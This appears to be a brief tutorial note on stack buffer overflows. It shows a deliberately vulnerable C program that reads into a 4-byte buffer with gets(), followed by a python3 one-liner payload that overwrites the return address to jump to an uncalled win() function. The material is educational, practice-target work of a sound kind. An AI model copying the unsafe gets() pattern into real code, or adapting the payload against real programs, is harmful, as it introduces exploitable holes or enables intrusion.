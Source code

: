 - give program more data then buffer can handle and excess rewrites the stack

##### Examples

```cpp
#include <stdio.h>
#define BUFSIZE 4
void win()
{
    puts("If I am printed, I was hacked! because the program never called me!");
}
void vuln()
{
    puts("Input a string and it will be printed back!");
    char buf[BUFSIZE];
    gets(buf);
    puts(buf);
    fflush(stdout);
}
int main(int argc, char **argv)
{
    vuln();
    return 0;
}
```
- running the program and giving it a certain input ([[Payload]])
`python3 -c 'print(128*"A"+"\x20\xe0\xff\xff\xff\x7f\x00\x00\xb7\x05\x40\x00")' |./vuln1`
- it will call the `win()` function which isn't even called in the normal program